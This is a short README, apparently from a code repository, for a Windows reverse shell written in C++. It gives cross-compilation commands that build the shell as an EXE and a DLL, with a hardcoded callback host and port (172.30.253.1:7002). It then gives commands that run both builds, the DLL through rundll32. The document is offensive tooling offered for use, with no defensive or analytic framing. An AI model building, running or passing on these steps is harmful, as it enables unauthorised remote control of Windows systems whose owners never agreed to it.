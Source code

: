 # Windows Reverse Shell in C++

Compilation:

~~~ bash
x86_64-w64-mingw32-gcc -Wall -Wextra -O2 ./shell.cpp -o ./shell.exe -lws2_32 -D LHOST=172.30.253.1 -D LPORT=7002
x86_64-w64-mingw32-gcc -Wall -Wextra -O2 -shared ./shell.cpp -o ./shell.dll -lws2_32 -D LHOST=172.30.253.1 -D LPORT=7002
~~~

Execution:

~~~ bash
.\shell.exe
rundll32.exe .\shell.dll,Nop
~~~
